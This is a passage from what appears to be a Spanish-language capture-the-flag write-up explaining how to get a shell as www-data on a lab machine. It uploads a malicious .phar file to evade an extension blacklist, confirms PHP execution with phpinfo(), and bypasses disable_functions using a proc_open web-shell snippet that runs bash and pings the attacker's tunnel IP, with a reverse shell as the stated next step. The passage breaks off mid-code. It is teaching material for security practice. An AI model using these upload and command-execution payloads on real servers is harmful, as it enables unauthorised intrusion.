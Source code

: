 ## Consiguiendo shell como www-data

### Subida de un archivo .phar

Una extensión que no se contempla en el listado de extensiones maliciosas es la extensión *.phar*. *.phar* es una extensión de archivo que representa un archivo de paquete PHP. Estos archivos se pueden distribuir y **ejecutar de manera similar a cualquier otro script PHP**. 

Podemos intentar subir un archivo malicioso *websites.phar* que contenga código en PHP para ver si lo interpreta. Para ello, escribiremos la siguiente línea:

```php
<?php phpinfo() ?>
```

*phpinfo()* es una función predefinida en PHP que se utiliza para mostrar información detallada sobre la configuración actual de PHP en el servidor web.

Recordemos que, para que nos dé tiempo a visualizar el contenido del fichero antes de ser borrado, este debe incluir el mayor número de direcciones web posibles. El resultado es el siguiente:

![imagen 12](Pasted image 20230117000751.png)

**Nos interpreta nuestro código *PHP***. Ahora podemos emplear una función que nos permita ejecutar comandos y podernos enviarnos una *reverse shell*. *phpinfo()* contempla una sección de funciones deshabilitadas llamada *disable_functions*:

![imagen 13](Pasted image 20230117000931.png)

### disable_functions bypass

Las típicas funciones de ejecución de comandos como *system, exec, shell_exec, popen, passthru…* están deshabilitadas. Sin embargo, existe una llamada *proc_open*, que no lo está ([Hacktricks disable_functions bypass](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass)).  En este [link](https://tecfa.unige.ch/guides/php/php5/function.proc-open.html), podemos encontrar un ejemplo de utilización de esta función. En nuestro caso, queremos abrir un *bash* y ejecutar como prueba un `ping -c 1 <ip_tun0>` :

```php
<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);

$cwd = '/tmp';
$env = array('some_option' => 'aeiou');

$process = proc_open('bash', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {
    // $pipes now looks like this:
    // 0 => writeable handle connected to child stdin
    // 1 => readable handle connected to child stdout
    // Any error output will be appended to /tmp/error-output.txt

    fwrite($pipes[0], 'ping -c 1 10.10.14.127');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);
```